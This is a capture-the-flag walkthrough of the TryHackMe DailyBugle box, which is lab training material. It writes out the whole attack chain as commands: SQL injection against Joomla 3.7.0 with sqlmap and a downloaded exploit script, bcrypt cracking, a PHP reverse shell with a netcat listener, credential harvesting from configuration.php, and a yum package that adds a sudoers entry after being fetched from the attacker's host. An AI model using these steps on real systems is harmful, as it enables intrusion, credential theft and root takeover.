 ![Screenshot 2023-09-12 141646.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/5a1494ff275a366be8418a9bf831847c.png)

# daily_bugle

DailyBugle is a CTF Linux box with difficulty rated as “high” on the TryHackMe platform. The machine covers Joomla 3.7.0 SQL injection vulnerability and privilege escalation using yum.

## Network Scanning

```bash
nmap -sC -Pn -T4 10.10.10.230 -oN nmap_result.txt
```

![Screenshot 2023-09-12 141646.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_141646.png)

## Enumeration

We have identified a robots.txt file containing an administrator directory.

![Screenshot 2023-09-12 144348.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_144348.png)

Upon opening this directory we found out that an instance of Joomla was running on this website.

![Screenshot 2023-09-12 144955.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_144955.png)

Joomla is a free and open-source content management system (CMS) that is used to build websites and online applications. Now we have to scan the Joomla with the help of joomscan to find the version and other pieces of information.

```bash
joomscan -u http://10.10.10.230
```

![Screenshot 2023-09-12 145601.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_145601.png)

Right away we looked out for public exploits for this installed instance using searchsploit and discovered that version 3.7.0 was vulnerable to SQLi via the com_fields parameter.

```bash
searchsploit joomla 3.7.0
searchsploit -m 42033
```

![Screenshot 2023-09-12 145811.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_145811.png)

![Screenshot 2023-09-12 150400.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_150400.png)

## **Exploitation**

As exploit number 42033 told us, this sql injection vulnerability could be exploited by the following command

```bash
sqlmap -u "http://10.10.10.230/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```

![Screenshot 2023-09-12 151111.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_151111.png)

However, while running this scan, it was taking way too long and so, we looked out for another script called “[Joomblah.py](http://joomblah.py/)” which is a POC for this SQLi vulnerability in Joomla v3.7.0. So we downloaded this script, ran and found credentials!

```bash
wget https://raw.githubusercontent.com/XiphosResearch/exploits/master/Joomblah/joomblah.py
python2.7 joomblah.py http://10.10.10.230
```

![Screenshot 2023-09-12 151251.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_151251.png)

Now we have to identify the hash type. So we use hashid to identify the hash and after analysing the hash through hashid we are sure that it is bcrypt hash.

![Screenshot 2023-09-15 165244.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_165244.png)

Thus we saved this hash in a file and Now we have to crack the hash with the help of john the ripper tool and the cracked password we obtain is `spiderman123`

```bash
echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > hash.txt
john --format=bcrypt hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![Screenshot 2023-09-15 132206.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_132206.png)

We see we have received clear text credentials. We logged in to the admin panel using this and can see a dashboard now!

![Screenshot 2023-09-15 170753.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_170753.png)

Like with any other CMS, Joomla also has templates that are running on PHP, therefore, right away we copied the php-reverse-shell.php code in the template file and clicked on template preview. Before launching template preview we also set up a netcat listener

```bash
nc -lnvp 4444
```

![Screenshot 2023-09-15 172840.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_172840.png)

On our listener we see a shell popped up!

## ****Privilege Escalation****

Now that we have a working TTY on the victim box, we started looking for ways to escalate privileges. We checked the sudoers file but nothing was found.

![Screenshot 2023-09-15 174041.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_174041.png)

After a quick system check and looking at the website’s files, we found a configuration file that had credentials of a database. root user had the password: **nv5uz9r3ZEDzVjNu**

```bash
cd /var/www/html
cat configuration.php
```

![Screenshot 2023-09-15 174331.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_174331.png)

Now, we tried to login into another existing user jjameson using this password and it worked! We immediately spawned a stable teletype using python. Thereafter, we looked into the sudoers file and found yum in the entries.

```bash
su jjameson
nv5uz9r3ZEDzVjNu
sudo -l
```

![Screenshot 2023-09-15 174842.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_174842.png)

![Screenshot 2023-09-15 175052.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_175052.png)

Referring to gtfobins post **[here](https://gtfobins.github.io/gtfobins/yum/)** we can escalate our privileges by creating our custom RPM executable. For this we need rpm, fpm to be installed first. Thereafter, we’ll copy a command into a shell script. This echo command simply adds my user jjameson into the sudoers file so that any command can be run as root. This would be our payload. Then we create an rpm package using fpm package.

```bash
apt install rpm
gem install fpm
echo 'echo "jjameson ALL=(root) NOPASSWD:ALL" >> /etc/sudoers' > my.sh
fpm -n root -s dir -t rpm -a all --before-install my.sh .
python3 -m http.server 80
```

![Screenshot 2023-09-15 175427.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_175427.png)

Now all that’s left to do was to copy this file into /tmp directory on the victim’s box.

```bash
cd /tmp
wget http://10.17.11.201/root-1.0-1.noarch.rpm
```

So, we downloaded it and ran using yum localinstall command. It ran successfully! We ran bash shell as sudo and as expected jjameson (my user) ran it as root and thus privileges were escalated! Finally, we read the congratulatory flag!

```bash
sudo yum localinstall -y root-1.0-1.noarch.rpm
sudo bash
cd /root
cat root.txt
```

![Screenshot 2023-09-15 175920.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_175920.png)

![Screenshot 2023-09-15 175956.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_175956.png)